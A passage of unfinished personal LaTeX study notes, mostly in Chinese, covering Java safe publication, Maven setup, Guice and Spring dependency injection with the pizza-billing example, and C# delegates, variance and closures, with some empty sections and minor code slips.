对于不变对象的引用时没有使用同步,也仍然可以安全的访问该对象。不变对象状态不可变这点很重要,说明final域所指向的也是不变对象。

如果final域所指向的是可变对象,那么访问这些域所指向的对象的状态时仍然需要同步。

\subsubsection{安全发布}

安全发布一个对象,对象的引用和对象的状态必须同时对其他线程可见。
\begin{itemize}
\item 在静态初始化函数中初始化一个对象引用;???
\item 将对象的引用保存到volatile类型的域或者AtomicReference对象中;
\item 将对象的引用保存到某个正确构造对象的final类型域中;
\item 将对象的引用保存到一个由锁保护的域中。
\end{itemize}

发布一个静态构造的对象,最简单和最安全的方式是使用静态的初始化器:
\begin{Java}
public static Holder holder = new Holder(42);
\end{Java}

\subsubsection{事实不可变对象}
就是对象发布后不会被修改。这种情况下,安全发布就足够了。

\subsubsection{可变对象}

可变对象除了要安全发布之外,还必须保证后续访问使用同步来确保可见性。

\subsection{并发程序共享对象的策略}
\begin{itemize}
\item 线程封闭
\item 只读共享,包括不可变对象和实事不可变对象。
\item 线程安全共享 线程安全的对象在其内部实现同步,多个线程可以通过对象的公有接口来进行访问而不需要在做同步
\item 保护对象 安全发布和通过特定的锁来访问。
\end{itemize}


\section{对象的组合}



















\chapter{关键技术}

\section{IoC 和 DI}

IoC is a generic term meaning rather than having the application call the methods in a framework, the framework calls implementations provided by the application.

DI is a form of IoC, where implementations are passed into an object through constructors/setters/service look-ups, which the object will 'depend' on in order to behave correctly.

IoC without using DI, for example would be the Template pattern because the implementation can only be changed through sub-classing.

DI Frameworks are designed to make use of DI and can define interfaces (or Annotations in Java) to make it easy to pass in implementations.

IoC Containers are DI frameworks that can work outside of the programming language. In some you can configure which implementations to use in metadata files (e.g. XML) which are less invasive. With some you can do IoC that would normally be impossible like inject implementation at pointcuts.

\section{JSR-330}



\section{•}

\section{性能优化}

\subsection{性能术语}

\begin{itemize}
\item 等待时间 Latency
\item 吞吐量 Throughput
\item 利用率
\item 效率
\item 容量

\end{itemize}

\subsection{务实的性能分析法}

\begin{itemize}
\item 你正在测量的代码有哪些可观测的环节?
\item 如何测量那些可观测环节?
\item 这些可观测环节的目标是什么?
\item 你怎么判断性能调优是否做好了?
\end{itemize}
\chapter{OSGI}



\chapter{Maven}

\section{Install}

\subsection{安装java和配置JAVA\_HOME}

Linux中安装java的时候,将java加入PATH中,以及配置JAVA\_HOME的话,可以配置脚本为用户修改这两个环境变量。

我是在\lstinline$~/.bashrc$文件中加入的。这部分再看看Linux就是这个范来补充一下。

\begin{Bash}[假设java安装在/opt/java中]
export JAVA_HOME=/opt/java
export PATH=$JAVA_HOME/bin:$PATH
\end{Bash}

\subsection{安装Maven}

安装Maven,配置环境变量M2\_HOME为Maven的安装目录,PATH中加入M2\_HOME/bin.由于Maven是Java程序,所以可以配置JVM参数,这部分不建议修改mvn脚本,而是添加MAVEN\_OPTS环境变量。这样的话,就方便升级。

\begin{Bash}
export MAVEN_OPTS="Xms128m -Xmx512m"
\end{Bash}

\subsection{settings.xml}

将settings.xml配置在\lstinline$~/.m2$目录中,这样为用户级别进行配置,而且方便升级。


\subsection{配置代理}


在settings.xml中配置代理。

\begin{XML}

<settings>

	<proxies>
		<proxy>
			<id>my-proxy</id>
			<active>true</active>
			<protocol>http</protocol>
			<host>218.14.227.197</host>
			<port>3128</port>
			<!--
			<username></username>
			<password></password>
			<nonProxyHosts>www.a.com|*.google.com</nonProxyHosts>
			-->
		</proxy>
	</proxies>

</settings>

\end{XML}

可以配置多个proxy元素,默认情况下第一个被激活的proxy会生效(active为true表示被激活)。

nonProxyHosts可以使用“|”来间隔区分多个主机名,也可以使用通配符"*"。


\subsection{IDE内嵌Maven}

IDE一般内嵌了一个Maven,这往往导致命令行和IDE中使用的不是同一个Maven。容易导致IDE和命令行行为不一致。

Preferences -> Maven -> Installation

这里会有一个 Embeded Maven,选择Add来添加安装的Maven,然后选择这个外部Maven。

\section{快速入门}


\subsection{编写POM}

创建hello-world目录,在其中添加pom.xml文件。

\begin{XML}[pom.xml]
<?xml version="1.0" encoding="utf-8" ?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<groupId>com.level.maven</groupId>
	<artifactId>hello-world</artifactId>
	<version>1.0-SNAPSHOT</version>
	<name>Maven Hello World Project</name>
</project>
\end{XML}

Maven2, 3都必须使用POM4.0

然后最重要的三个元素groupId, artifactId和version,这三个元素定义了一个项目在Maven中基本坐标。

\section{坐标和依赖}

Maven的坐标:
\begin{itemize}
\item groupId Maven项目隶属的实际项目,groupId不应该对应项目隶属的组织或者公司。因为一个组织下会有很多项目。groupId和报名表示方法类似,与域名反向意义对应。
\item artifactId 定义实际项目中的一个Maven项目(模块)。推荐做法是使用实际项目名作为前缀,例如nexus-indexer。 
\item version 定义Maven项目当前所处版本。SNAPSHOT表示当前版本还不是稳定的,每天会做更新。
\item packaging Maven项目打包方式,默认是jar,对于jar和war,打包会使用不同的命令。但是并不一定就是对应扩展名。
\item classifier 定义构建输出的一些附属构件。。。。这个没看得太懂。
\end{itemize}


项目构件的文件名与坐标相对应,一般是artifactId-version[-classifier].packaging,



\chapter{Guice}

\section{准备知识}

\subsection{annotation}

\section{动机}

\subsection{直接构建}

先通过一个例子来说明一下为啥要用DI。这里是一个Pizza订购的网站服务。

\begin{Java}[服务接口定义]
public interface BillingService {

  /**
   * Attempts to charge the order to the credit card. Both successful and
   * failed transactions will be recorded.
   *
   * @return a receipt of the transaction. If the charge was successful, the
   *      receipt will be successful. Otherwise, the receipt will contain a
   *      decline note describing why the charge failed.
   */
  Receipt chargeOrder(PizzaOrder order, CreditCard creditCard);
}
\end{Java}

\begin{Java}[服务接口的具体实现]
public class RealBillingService implements BillingService {
  public Receipt chargeOrder(PizzaOrder order, CreditCard creditCard) {
    CreditCardProcessor processor = new PaypalCreditCardProcessor();
    TransactionLog transactionLog = new DatabaseTransactionLog();

    try {
      ChargeResult result = processor.charge(creditCard, order.getAmount());
      transactionLog.logChargeResult(result);

      return result.wasSuccessful()
          ? Receipt.forSuccessfulCharge(order.getAmount())
          : Receipt.forDeclinedCharge(result.getDeclineMessage());
     } catch (UnreachableException e) {
      transactionLog.logConnectException(e);
      return Receipt.forSystemFailure(e.getMessage());
    }
  }
}
\end{Java}

这个时候整个代码是无法测试的。

\subsection{工厂}

如果我们该用Factory模式来重构上面的代码。加入一个Factory类。

\begin{Java}[CreditCardProcessor的工厂]
public class CreditCardProcessorFactory {

  private static CreditCardProcessor instance;

  public static void setInstance(CreditCardProcessor processor) {
    instance = processor;
  }

  public static CreditCardProcessor getInstance() {
    if (instance == null) {
      return new SquareCreditCardProcessor();
    }

    return instance;
  }
}
\end{Java}

\begin{Java}[使用Factory的服务实现]
public class RealBillingService implements BillingService {
  public Receipt chargeOrder(PizzaOrder order, CreditCard creditCard) {
    CreditCardProcessor processor = CreditCardProcessorFactory.getInstance();
    TransactionLog transactionLog = TransactionLogFactory.getInstance();

    try {
      ChargeResult result = processor.charge(creditCard, order.getAmount());
      transactionLog.logChargeResult(result);

      return result.wasSuccessful()
          ? Receipt.forSuccessfulCharge(order.getAmount())
          : Receipt.forDeclinedCharge(result.getDeclineMessage());
     } catch (UnreachableException e) {
      transactionLog.logConnectException(e);
      return Receipt.forSystemFailure(e.getMessage());
    }
  }
}
\end{Java}

此时,我们能够添加相应的测试代码了。

\begin{Java}[单元测试]
public class RealBillingServiceTest extends TestCase {

  private final PizzaOrder order = new PizzaOrder(100);
  private final CreditCard creditCard = new CreditCard("1234", 11, 2010);

  private final InMemoryTransactionLog transactionLog = new InMemoryTransactionLog();
  private final FakeCreditCardProcessor processor = new FakeCreditCardProcessor();

  @Override public void setUp() {
    TransactionLogFactory.setInstance(transactionLog);
    CreditCardProcessorFactory.setInstance(processor);
  }

  @Override public void tearDown() {
    TransactionLogFactory.setInstance(null);
    CreditCardProcessorFactory.setInstance(null);
  }

  public void testSuccessfulCharge() {
    RealBillingService billingService = new RealBillingService();
    Receipt receipt = billingService.chargeOrder(order, creditCard);

    assertTrue(receipt.hasSuccessfulCharge());
    assertEquals(100, receipt.getAmountOfCharge());
    assertEquals(creditCard, processor.getCardOfOnlyCharge());
    assertEquals(100, processor.getAmountOfOnlyCharge());
    assertTrue(transactionLog.wasSuccessLogged());
  }
}
\end{Java}

同样,这个代码其实是很有问题的,我们必须特别小心的setting和tearing down。如果teardown失败了。全局变量会保留在这个地方设定的值。而且使用全局变量的没有办法多测试并行运行。

But the biggest problem is that the dependencies are hidden in the code. If we add a dependency on a CreditCardFraudTracker, we have to re-run the tests to find out which ones will break. Should we forget to initialize a factory for a production service, we don't find out until a charge is attempted. As the application grows, babysitting factories becomes a growing drain on productivity.


\subsection{依赖注入}

\begin{Java}[服务的具体实现不再负责对象的依赖]
public class RealBillingService implements BillingService {
  private final CreditCardProcessor processor;
  private final TransactionLog transactionLog;

  public RealBillingService(CreditCardProcessor processor, 
      TransactionLog transactionLog) {
    this.processor = processor;
    this.transactionLog = transactionLog;
  }

  public Receipt chargeOrder(PizzaOrder order, CreditCard creditCard) {
    try {
      ChargeResult result = processor.charge(creditCard, order.getAmount());
      transactionLog.logChargeResult(result);

      return result.wasSuccessful()
          ? Receipt.forSuccessfulCharge(order.getAmount())
          : Receipt.forDeclinedCharge(result.getDeclineMessage());
     } catch (UnreachableException e) {
      transactionLog.logConnectException(e);
      return Receipt.forSystemFailure(e.getMessage());
    }
  }
}
\end{Java}

\begin{Java}[我们不再需要工厂了]
public class RealBillingServiceTest extends TestCase {

  private final PizzaOrder order = new PizzaOrder(100);
  private final CreditCard creditCard = new CreditCard("1234", 11, 2010);

  private final InMemoryTransactionLog transactionLog = new InMemoryTransactionLog();
  private final FakeCreditCardProcessor processor = new FakeCreditCardProcessor();

  public void testSuccessfulCharge() {
    RealBillingService billingService
        = new RealBillingService(processor, transactionLog);
    Receipt receipt = billingService.chargeOrder(order, creditCard);

    assertTrue(receipt.hasSuccessfulCharge());
    assertEquals(100, receipt.getAmountOfCharge());
    assertEquals(creditCard, processor.getCardOfOnlyCharge());
    assertEquals(100, processor.getAmountOfOnlyCharge());
    assertTrue(transactionLog.wasSuccessLogged());
  }
}
\end{Java}

\begin{Java}[问题出现了,我们需要在顶级代码中处理依赖]
  public static void main(String[] args) {
    CreditCardProcessor processor = new PaypalCreditCardProcessor();
    TransactionLog transactionLog = new DatabaseTransactionLog();
    BillingService billingService
        = new RealBillingService(processor, transactionLog);
    ...
  }
\end{Java}

\subsection{使用Guice进行依赖注入}

这个时候可以使用Guice来完成这部分的工作。

\begin{Java}[通过configure来指定如果生成对象]
public class BillingModule extends AbstractModule {
  @Override 
  protected void configure() {
    bind(TransactionLog.class).to(DatabaseTransactionLog.class);
    bind(CreditCardProcessor.class).to(PaypalCreditCardProcessor.class);
    bind(BillingService.class).to(RealBillingService.class);
  }
}
\end{Java}


\begin{Java}[然后可以这样来实现依赖注入,使用@Inject注解]
public class RealBillingService implements BillingService {
  private final CreditCardProcessor processor;
  private final TransactionLog transactionLog;

  @Inject
  public RealBillingService(CreditCardProcessor processor,
      TransactionLog transactionLog) {
    this.processor = processor;
    this.transactionLog = transactionLog;
  }

  public Receipt chargeOrder(PizzaOrder order, CreditCard creditCard) {
    try {
      ChargeResult result = processor.charge(creditCard, order.getAmount());
      transactionLog.logChargeResult(result);

      return result.wasSuccessful()
          ? Receipt.forSuccessfulCharge(order.getAmount())
          : Receipt.forDeclinedCharge(result.getDeclineMessage());
     } catch (UnreachableException e) {
      transactionLog.logConnectException(e);
      return Receipt.forSystemFailure(e.getMessage());
    }
  }
}
\end{Java}

\begin{Java}[这样在顶层只需要这样]
  public static void main(String[] args) {
    Injector injector = Guice.createInjector(new BillingModule());
    BillingService billingService = injector.getInstance(BillingService.class);
    ...
  }
\end{Java}


\section{Getting Started}

\subsubsection{object graph}
通过构造函数来接受依赖,那么在构造对象之前,需要先构造他所依赖的对象,而在构造他所依赖的对象之前,又需要将依赖对象所依赖的对象先构建。这样就需要构建一个对象图(Object Graph).

\subsubsection{使用}

\begin{Java}[使用@Inject来告诉Guice通过构造函数构造]
class BillingService {
  private final CreditCardProcessor processor;
  private final TransactionLog transactionLog;

  @Inject
  BillingService(CreditCardProcessor processor, 
      TransactionLog transactionLog) {
    this.processor = processor;
    this.transactionLog = transactionLog;
  }

  public Receipt chargeOrder(PizzaOrder order, CreditCard creditCard) {
    ...
  }
}
\end{Java}

\begin{Java}[通过AbstractModule的子类来配置binding]
public class BillingModule extends AbstractModule {
  @Override 
  protected void configure() {

     /*
      * This tells Guice that whenever it sees a dependency on a TransactionLog,
      * it should satisfy the dependency using a DatabaseTransactionLog.
      */
    bind(TransactionLog.class).to(DatabaseTransactionLog.class);

     /*
      * Similarly, this binding tells Guice that when CreditCardProcessor is used in
      * a dependency, that should be satisfied with a PaypalCreditCardProcessor.
      */
    bind(CreditCardProcessor.class).to(PaypalCreditCardProcessor.class);
  }
}
\end{Java}

\begin{Java}[获取Guice的Object-Graph Builder]
 public static void main(String[] args) {
    /*
     * Guice.createInjector() takes your Modules, and returns a new Injector
     * instance. Most applications will call this method exactly once, in their
     * main() method.
     */
    Injector injector = Guice.createInjector(new BillingModule());

    /*
     * Now that we've got the injector, we can build objects.
     */
    BillingService billingService = injector.getInstance(BillingService.class);
    ...
  }
\end{Java}

\section{Bindings}

\subsection{linked bindings}

\begin{Java}[map一个接口到他的实现]
public class BillingModule extends AbstractModule {
  @Override 
  protected void configure() {
    bind(TransactionLog.class).to(DatabaseTransactionLog.class);
  }
}
\end{Java}


\begin{Java}[可以link一个类型的实例或者他的子类型]
bind(DatabaseTransactionLog.class).to(MySqlDatabaseTransactionLog.class);
\end{Java}


\begin{Java}[link可以chain]
public class BillingModule extends AbstractModule {
  @Override 
  protected void configure() {
    bind(TransactionLog.class).to(DatabaseTransactionLog.class);
    bind(DatabaseTransactionLog.class).to(MySqlDatabaseTransactionLog.class);
  }
}
\end{Java}
这个例子中TransactionLog绑定到DatabaseTransactionLog, DatabaseTransactionLog又绑定到MySqlDatabaseTransactionLog。这样取得TransactionLog时,得到的是一个MySqlDatabaseTransactionLog的实例。


\subsection{BindingAnnotations}

\subsubsection{Binding Annotation}
当想将多个绑定到一个类型是,我们可以这么做。

\begin{Java}[声明一个annotation]
package example.pizza;

import com.google.inject.BindingAnnotation;
import java.lang.annotation.Target;
import java.lang.annotation.Retention;
import static java.lang.annotation.RetentionPolicy.RUNTIME;
import static java.lang.annotation.ElementType.PARAMETER;
import static java.lang.annotation.ElementType.FIELD;
import static java.lang.annotation.ElementType.METHOD;

@BindingAnnotation @Target({ FIELD, PARAMETER, METHOD }) @Retention(RUNTIME)
public @interface PayPal {}
\end{Java}

这其中:
\begin{itemize}
\item @BindingAnnotation 告诉Guice这是一个binding annotation,这样当多个biding应用到同一个成员,Guice可以抛错
\item @Target({FIELD, PARAMETER, METHOD})阻止@PayPal被使用到不正确的地方
\item @Retention(RUNTIME) 保证@PayPal运行时可用
\end{itemize}

\begin{Java}[接着可以这样注入]
public class RealBillingService implements BillingService {

  @Inject
  public RealBillingService(@PayPal CreditCardProcessor processor,
      TransactionLog transactionLog) {
    ...
  }
\end{Java}

\begin{Java}[应该这样来binding]
    bind(CreditCardProcessor.class)
        .annotatedWith(PayPal.class)
        .to(PayPalCreditCardProcessor.class);
\end{Java}

\subsubsection{@Named}
内建binding annotation @Named
\begin{Java}
public class RealBillingService implements BillingService {

  @Inject
  public RealBillingService(@Named("Checkout") CreditCardProcessor processor,
      TransactionLog transactionLog) {
    ...
  }
\end{Java}

\begin{Java}
    bind(CreditCardProcessor.class)
        .annotatedWith(Names.named("Checkout"))
        .to(CheckoutCreditCardProcessor.class);
\end{Java}

\subsection{instance bindings}
一般用于绑定自身没有依赖的值类型对象

\begin{Java}
    bind(String.class)
        .annotatedWith(Names.named("JDBC URL"))
        .toInstance("jdbc:mysql://localhost/pizza");
    bind(Integer.class)
        .annotatedWith(Names.named("login timeout seconds"))
        .toInstance(10);
\end{Java}

不要使用toInstance来创建复杂的对象,这样会导致应用启动缓慢。如果要创建复杂对象,应该使用@provides来代替。


\subsection{@Provides Method}

当你需要使用代码来创建对象时,使用@Provides方法,这个方法必须定义在一个module里面,而且他必须有一个@Proivdes的注解。方法的返回类型就是约束类型。当injector需要一个这个类型的实例是,就会调用这个方法。

\begin{Java}
public class BillingModule extends AbstractModule {
  @Override
  protected void configure() {
    ...
  }

  @Provides
  TransactionLog provideTransactionLog() {
    DatabaseTransactionLog transactionLog = new DatabaseTransactionLog();
    transactionLog.setJdbcUrl("jdbc:mysql://localhost/pizza");
    transactionLog.setThreadPoolSize(30);
    return transactionLog;
  }
}
\end{Java}


\begin{Java}[同样可以使用binding annotation和依赖注入]
  @Provides @PayPal
  CreditCardProcessor providePayPalCreditCardProcessor(
      @Named("PayPal API key") String apiKey) {
    PayPalCreditCardProcessor processor = new PayPalCreditCardProcessor();
    processor.setApiKey(apiKey);
    return processor;
  }
\end{Java}


Guice does not allow exceptions to be thrown from Providers.

\subsection{Provider}

\begin{Java}[Provider接口]
public interface Provider<T> {
  T get();
}
\end{Java}

当@Provides变得复杂起来。可以移出来到独立的类中,实现Provider接口。


\begin{Java}[Provider可以通过Inject构造函数来注入依赖]
public class DatabaseTransactionLogProvider implements Provider<TransactionLog> {
  private final Connection connection;

  @Inject
  public DatabaseTransactionLogProvider(Connection connection) {
    this.connection = connection;
  }

  public TransactionLog get() {
    DatabaseTransactionLog transactionLog = new DatabaseTransactionLog();
    transactionLog.setConnection(connection);
    return transactionLog;
  }
}
\end{Java}

\begin{Java}[最后通过toProvider来绑定]
public class BillingModule extends AbstractModule {
  @Override
  protected void configure() {
    bind(TransactionLog.class)
        .toProvider(DatabaseTransactionLogProvider.class);
  }
\end{Java}

Guice does not allow exceptions to be thrown from Providers. The Provider interface does not allow for checked exception to be thrown. RuntimeExceptions may be wrapped in a ProvisionException or CreationException and may prevent your Injector from being created.


\subsection{Just-in-Time Binding}

\begin{Java}[Guice可以为具体的类型创建绑定]
public class PayPalCreditCardProcessor implements CreditCardProcessor {
  private final String apiKey;

  @Inject
  public PayPalCreditCardProcessor(@Named("PayPal API key") String apiKey) {
    this.apiKey = apiKey;
  }
\end{Java}


\begin{Java}[使用@ImplementedBy来制定类型的默认实现]
@ImplementedBy(PayPalCreditCardProcessor.class)
public interface CreditCardProcessor {
  ChargeResult charge(String amount, CreditCard creditCard)
      throws UnreachableException;
}
\end{Java}


\begin{Java}[上面的代码等价于]
bind(CreditCardProcessor.class).to(PayPalCreditCardProcessor.class);
\end{Java}

\begin{Java}[@ProvidedBy来指定类型对应的Provider]
@ProvidedBy(DatabaseTransactionLogProvider.class)
public interface TransactionLog {
  void logConnectException(UnreachableException e);
  void logChargeResult(ChargeResult result);
}
\end{Java}


\begin{Java}[上面等价于]
    bind(TransactionLog.class)
        .toProvider(DatabaseTransactionLogProvider.class);
\end{Java}


\section{Scope}


\begin{Java}[注解]
@Singleton
public class InMemoryTransactionLog implements TransactionLog {
  /* everything here should be threadsafe! */
}
\end{Java}

\begin{Java}[配置]
  bind(TransactionLog.class).to(InMemoryTransactionLog.class).in(Singleton.class);
\end{Java}

\begin{Java}[@Provides使用注解]
  @Provides @Singleton
  TransactionLog provideTransactionLog() {
    ...
  }
\end{Java}

类型和bind语句冲突是,使用bind语句设定的scope.

bind的是source,而不是target.这就意味着

\begin{Java}[Bar和Grill各有一个Applebees的实例]
  bind(Bar.class).to(Applebees.class).in(Singleton.class);
  bind(Grill.class).to(Applebees.class).in(Singleton.class);
\end{Java}

\begin{Java}[如果想只产生一个Applebees的实例或者在Class上指定]
  bind(Applebees.class).in(Singleton.class);
\end{Java}

in语句中可以使用annotation或者scope实例
\begin{Java}
  bind(UserPreferences.class)
      .toProvider(UserPreferencesProvider.class)
      .in(ServletScopes.REQUEST);
\end{Java}

但是推荐使用注解,这样使得module可以在不同类型的应用中被重用.



\section{Injections}

\subsection{Constructor Injections}

\begin{Java}
public class RealBillingService implements BillingService {
  private final CreditCardProcessor processorProvider;
  private final TransactionLog transactionLogProvider;

  @Inject
  public RealBillingService(CreditCardProcessor processorProvider,
      TransactionLog transactionLogProvider) {
    this.processorProvider = processorProvider;
    this.transactionLogProvider = transactionLogProvider;
  }
\end{Java}

如果没有@Inject注解,Guice会使用公有的,无参的构造函数

\subsection{Method Injections}

\begin{Java}[任意方法名 任意参数]
public class PayPalCreditCardProcessor implements CreditCardProcessor {

  private static final String DEFAULT_API_KEY = "development-use-only";

  private String apiKey = DEFAULT_API_KEY;

  @Inject
  public void setApiKey(@Named("PayPal API key") String apiKey) {
    this.apiKey = apiKey;
  }
\end{Java}




\section{AOP}



\chapter{Spring}

\section{声明bean}


ref属性来引用其他bean

factory-method属性来通过静态工厂创建bean

spring bean默认都是单例,可以通过scope来声明一个作用域。 spring的单例是保证在spring应用上下文中只有一个bean的实例,并不能阻止你使用传统方法来创建bean实例。

使用init-method和destroy-method属性来初始化和销毁bean。(也可以实现特定的两个接口,InitializingBean和DisposableBean,这样就无需额外配置了)
如果很多bean有相同的方法,则可以在beans上配置default-init-method和default-destroy-method属性。

内部bean的注入,setter或者constructor args。内部bean仅被使用一次,而且不能被其他bean使用。


\subsection{bean注入}

\subsubsection{采用setter注入属性}
\begin{itemize}
\item property标签,使用value属性注入基本类型和string类型
\item property标签,采用ref属性来引用其他在spring中配置的bean
\item property标签,嵌入内部的bean标签。
\end{itemize}

\subsubsection{采用构造函数参数来注入属性}
采用构造函数参数来注入属性,采用constructor-arg标签。


\subsubsection{p命名空间}

采用p命名空间,这样就在bean标签中加属性来注入值。


\subsubsection{装配集合}

\begin{itemize}
\item <list>,成员可以是<ref>,<value>,<bean>,<null/>,<list> 
\item <set>

如果属性是java.util.Collection类型是,这两个配置元素在使用时几乎可以完全互换。

\item <map> 对应jva.util.Map

成员entry的属性可以是key,key-ref, value, value-ref

\item <props> 对应java.util.Properties,键值都必须是String。

成员prop的属性是key,值是标签中的文本。

\end{itemize}

\subsubsection{装配空值}

使用<null/>

\subsubsection{使用SpEL装配}

使用\#\{\}界定符

\begin{itemize}
\item 字面量
\item 引用其他Bean,一个用途就是如果一个属性配置为另一个bean的属性的时候。

\item \lstinline$#{songSelector.selectSon()?.toUpperCase()}$ 类似于swift的方式。

\item \lstinline$T(java.lang.Math).PI$取得静态变量或者调用静态方法。\lstinline$T(java.lang.Math)$取得class类

\item 运算符 \lstinline$#{counter.total + 42}$


\end{itemize}

\subsection{自动装配bean}

对应明显的装配场景,可以自动装配这种类型(autowiring)。比如整个Context只有一个某种类型的时候。在bean标签中加入autowire属性,取下面的四个值。

\begin{itemize}
\item no 不自动装配。
\item byName 与bean属性具有相同名字(或者ID)的bean自动装配到bean的对应属性。
\item byType 与bean的属性具有相同类型的其他bean自动装配到bean的对应属性
\item constructor 与bean的构造器入参具有相同类型的其他bean自动装配到bean构造器的对应入参
\item autodetect 现场时constructor自动转配,如果失败,在尝试byType的方式。
\end{itemize}

可以在beans标签上设定一个default-autowire属性,为所有的bean给定默认的配置。默认情况下,default-autowire被设定为none。


\subsection{annotation装配}

在xml中加入\lstinline$<context:annotation-config />$来开启注解配置。

\begin{itemize}
\item @Autowired,使用byType方式。

只能有一个构造函数的注解required能够被设置为true,@Autowired(required=true)

使用@Autowired标注多个构造函数式,如果都满足,Spring会挑一个入参最多的构造函数。

当有多个bean合适是,可以使用@Qualifier("name")注解来指定ID为name的bean。或者直接在xml配置中加入qualifier标签。


\item @Inject
\item @Resource
\end{itemize}


\subsection{自动检测Bean}

\lstinline$<context:annotation-config />$可以消除property和constructor-arg标签,但是还是需要显示配置bean标签。\lstinline$<context:component-scan>$除了完成上面标签做的事,还允许Spring自动检查Bean和定义Bean,需要使用属性base-package来制定扫描的包机器子包。

%补充配置文件


如果在\lstinline$<context:component-scan>$中配置子元素\lstinline$<context:include-filter>$或者\lstinline$<context:exclude-filter>$,我们可以调整扫描行为。

%补充配置文件。



自动检查的标注
\begin{itemize}
\item @Component 通用构造型注解,标识该类为Spring组件。

使用@Component标注的类自动注册为Spring Bean,Bean的ID默认为无限定类名,比如类x.y.z.Guitar的Bean ID就是guitar。如果采用@Component("name")的形式的话,Bean ID就是name了。


\item @Controller Spring MVC Controller

\item @Repository 数据仓库

\item @Service 标识该类定义为服务。····
\end{itemize}





\part{C Sharp}
\chapter{基础内容}

\chapter{C\# 委托 delegate}


\section{委托,匿名函数和Lambda的语法}

\begin{CSharp}[委托,匿名函数和Lambda]
        [TestMethod]
        public void TestMethod4()
        {
            List<int> list = new List<int>(new int[] { 1, 2, 3 });
            List<int> expectResult = new List<int>(new int[] { 1, 4, 9 });

            List<int> ret1 = list.ConvertAll(new Converter<int, int>(Sqrt));
            List<int> ret2 = list.ConvertAll(delegate(int x) { return x * x; });
            List<int> ret3 = list.ConvertAll((int x) => { return x * x; });
            List<int> ret4 = list.ConvertAll((int x) => x * x);
            List<int> ret5 = list.ConvertAll<int>((x) => x * x);
            List<int> ret6 = list.ConvertAll<int>(x => x * x);

            CollectionAssert.AreEqual(expectResult, ret1);
            CollectionAssert.AreEqual(expectResult, ret2);
            CollectionAssert.AreEqual(expectResult, ret3);
            CollectionAssert.AreEqual(expectResult, ret4);
            CollectionAssert.AreEqual(expectResult, ret5);
            CollectionAssert.AreEqual(expectResult, ret6);
        }

        public static int Sqrt(int x)
        {
            return x * x;
        }
\end{CSharp}

从7~12行是从委托到Lambda表达式的所有语法形式,从上往下,越来越简单。11,12行的形式需要显式写明泛型类型来帮助Lambda表达式推断变量的类型。

第7行,C\#1中的delegate。

第8行,匿名函数。

第9行,Lambda表达式,花括号中可以有多个语句。

第10行,Lambda表达式,省略花括号,直接返回expression的值。

第11行,参数类型可以省略,如果编译器能够推断出此处的类型的话。

第12行,参数的括号可以省略(不知道两个参数的时候是否可以省略,等补充)。

\section{协变和逆变}

协变就是如果类型是另一个类型的子类,就能隐式的将数组,泛型,委托转换为另一个类型。

而逆变就是相反的一个过程。

当类型描述的是返回类型时,协变是安全的;当类型描述的是接受类型,逆变是安全的。

数组的协变:

\begin{CSharp}[数组的协变]
        [TestMethod]
        [ExpectedException(typeof(ArrayTypeMismatchException))]
        public void TestVariant()
        {
            string[] strs = new string[] { "a", "b", "c" };
            object[] objs = strs;
            objs[0] = new object();
        }
\end{CSharp}

问题出现了,这个问题不能被编译器检测出来。会在运行时抛出一个ArrayTypeMismatchException。那为什么数组要支持协变呢?因为Java支持,最开始为了支持从Java源码编译过来,所以.Net也支持协变数组。

泛型不支持协变。

委托是支持协变和逆变的。

\begin{CSharp}[协变和逆变]
        
        public delegate Object Dele(String str);

        [TestMethod]
        public void TestMethod1()
        {
            Dele b = new Dele(this.Delegated);

            Assert.AreEqual(typeof(String), o.GetType());
            Assert.AreEqual("This is a test string.", o.ToString());            
        }

        public String Delegated(Object obj) { return "This is a test string.";}
\end{CSharp}

上面是委托最初的语法,使用关键词delegate定义一个委托类型。在方法中生成一个委托对象,然后就可以像调用方法一直接调用委托对象。

同样,返回值是协变,输入参数是逆变。


\section{预定义委托类型}

C\#2.0引入了一个泛型委托Action<T>

\begin{CSharp}[Actio<T>的签名]
		public delegate void Action<T>(T obj);
\end{CSharp}


\begin{CSharp}[Action和匿名方法]
        [TestMethod]
        public void TestMethod2()
        {
            Action<char[]> reverseString = delegate(char[] chars){
                System.Array.Reverse(chars);
            };

            char[] test = "chars".ToCharArray();
            reverseString(test);

            Assert.AreEqual("srahc", new string(test));

        }
\end{CSharp}

需要注意的是逆变性不适应匿名方法。而且值类型不支持使用this,而引用类型支持使用this。


Action<T>没有返回值,还有另外一个有返回类型的Predicate<T>,返回bool型,常用来过滤或者匹配。签名是
\begin{CSharp}
		public delegate bool Predicate<T>(T obj);
\end{CSharp}

\section{闭包}
\begin{itemize}
\item 外部变量( outer variable)是指作用域( scope)内包括匿名方法的局部变量或参数(不包括ref和out参数)。在类的实例成员内部的匿名方法中, this引用也被认为是一个外部变量。
\item 捕获的外部变量( captured outer variable)通常简称为捕获变量( captured variable),它是在匿名方法内部使用的外部变量。
变量。
\end{itemize}

感觉和JavaScript的暂时还没有什么不同。


\#更新\#
由于JS没有块作用域,所以和C\#还是有点点不同的地方。

\begin{CSharp}[此处创建的匿名函数更新的都是一个counter,因为counter只申明了一次]
        public IList<Func<int>> createDelegate()
        {
            int counter = 5;
            IList<Func<int>> ret = new List<Func<int>>();
            for (int i = 0; i < 5; i++)
            {
                ret.Add( () => ++counter );
            }
            return ret; 
        }
\end{CSharp}

\begin{CSharp}[而此处创建的匿名函数更新的是不同的counter,因为在迭代过程中,每次创建匿名函数之前,都在各自的作用域(scope)中申明了一个变量counter]
        public IList<Func<int>> createDelegate2()
        {
            IList<Func<int>> ret = new List<Func<int>>();
            for (int i = 0; i < 5; i++)
            {
                int counter = 5;    
                ret.Add(() => ++counter );
            }
            return ret;
        }
\end{CSharp}

\begin{CSharp}[运行结果]
        [TestMethod]
        public void TestMethod3()
        {
            int counter = 5;
            IList<Func<int>> de1 = createDelegate();
            foreach (var func in de1)
            {
                int ret = func();
                Assert.AreEqual(++counter, ret);
            }

            IList<Func<int>> de2 = createDelegate2();
            foreach (var func in de2)
            {
                int ret = func();
                Assert.AreEqual(6, ret);
            }
        }
\end{CSharp}


\chapter{C\#的迭代器}

\section{实现和注意}
\begin{CSharp}[C\#1中的实现]
using System;
using System.Collections;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace MyFirstConsoleApp.Iterator
{
    class IterationSample: IEnumerable
    {
        object[] values;
        int startingPoint;

